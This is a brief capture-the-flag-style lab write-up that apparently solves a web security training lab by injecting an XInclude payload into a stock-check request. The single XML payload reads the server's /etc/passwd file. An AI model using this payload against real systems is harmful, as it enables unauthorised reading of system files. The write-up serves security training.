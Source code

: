 # Lab: Exploiting XInclude to retrieve files

> Lab Objective: inject an XInclude statement to retrieve the contents of the `/etc/passwd` file.

- Check Stock for any product, then inspect the request.

- You'll notice that the POST Data is not sent in XML Format/
  ![1st screenshot](./attachments/1.png)

- Therefore I'll try to exploit XInclude via this payload:

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

- The `/etc/passwd` contents are retrieved:
  ![2nd screenshot](./attachments/2.png)

- And The Lab is solved successfully.
  ![3rd screenshot](./attachments/3.png)

---
